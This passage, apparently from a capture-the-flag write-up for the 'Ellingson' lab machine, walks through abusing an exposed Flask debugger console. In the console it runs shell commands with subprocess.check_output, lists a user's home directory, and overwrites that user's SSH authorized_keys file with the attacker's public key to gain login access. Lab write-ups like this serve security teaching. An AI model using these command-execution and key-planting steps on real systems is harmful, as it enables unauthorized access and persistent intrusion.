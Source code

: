 There are only 3 articles on that website, so when I enter id as 4, it says “list index out of range”.

But instead of 404 Not Found, we receive a response from the Flask server. This confirms that the nginx server is acting as a reverse proxy, redirecting requests to a Flask server.

At the end of the page, some info mentions “For code execution mouse over the frame you want to debug and click on the console icon on the right side.”

![image.png](/images/ellingson/image5.png)

It provides a Python console which can be used to debug code. We can directly execute python code on this console.

### Exploitation

Now that we can execute code, we need to find a way to execute commands on the box. As this
is a debugger, we can’t directly use the system() function to get output. In this case, we can use
the subprocess.check_output() function to execute code and save it to a variable.

```python
import subprocess
output = subprocess.check_output('whoami', shell=True )
print(output.decode('utf-8'))
```

This will execute a system command whoami.

![image.png](/images/ellingson/image6.png)

We got the output as hal. In the company website the team members are posted.

![image.png](/images/ellingson/image7.png)

Yes, hal is a valid user.

Let’s check his home directory.

```python
import subprocess
output = subprocess.check_output('ls -al /home/hal', shell=True)
print(output.decode('utf-8'))
```

![image.png](/images/ellingson/image8.png)

There is a .ssh folder, let’s write our public key to the authorized_keys file so that we can login.

First get your own public key for ssh.

```bash
cat ~/.ssh/id_rsa.pub
```

Then paste your public key and run the command in that python console.

```python
import subprocess
proc = subprocess.check_output('echo "your_ssh_publickey" > /home/hal/.ssh/authorized_keys', shell=True );
```
